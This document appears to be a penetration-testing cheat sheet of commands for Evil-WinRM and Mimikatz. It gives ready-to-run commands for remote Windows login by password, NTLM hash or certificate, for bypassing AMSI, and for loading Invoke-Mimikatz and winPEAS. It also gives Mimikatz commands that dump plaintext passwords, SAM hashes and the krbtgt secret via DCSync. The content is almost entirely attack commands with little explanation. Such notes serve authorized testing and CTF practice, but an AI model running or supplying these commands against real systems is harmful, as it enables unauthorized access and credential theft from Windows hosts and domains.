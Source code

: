 # Evil-Winrm

```bash
# winrm service discovery
nmap -p5985,5986 IP
5985 - plaintext protocol
5986 - encrypted

# Login with password
evil-winrm -i IP -u user -p pass
evil-winrm -i IP -u user -p pass -S # if 5986 port is open

# Login with Hash
evil-winrm -i IP -u user -H ntlmhash

# Login with key
# -c for public key and -k for private key
evil-winrm -i IP -c certificate.pem -k priv-key.pem -S 

# Logs
evil-winrm -i IP -u user -p pass -l

# File upload and download
upload <file>
download <file> <filepath-kali> # not required to provide path all time

# Loading files direclty from Kali location
evil-winrm -i IP -u user -p pass -s /opt/privsc/bash # Location can be different
Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz

# evil-winrm commands
# to view commands
menu 

# There are several commands to run
# This is an example for running a binary
evil-winrm -i IP -u user -p pass -e /opt/privsc
Bypass-4MSI
menu
Invoke-Binary /opt/privsc/winPEASx64.exe
```

# Mimikatz

```bash
privilege::debug

token::elevate

sekurlsa::logonpasswords # hashes and plaintext passwords
lsadump::sam
lsadump::sam SystemBkup.hiv SamBkup.hiv
lsadump::dcsync /user:krbtgt

# both these dump SAM
lsadump::lsa /patch 

# OneLiner
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

```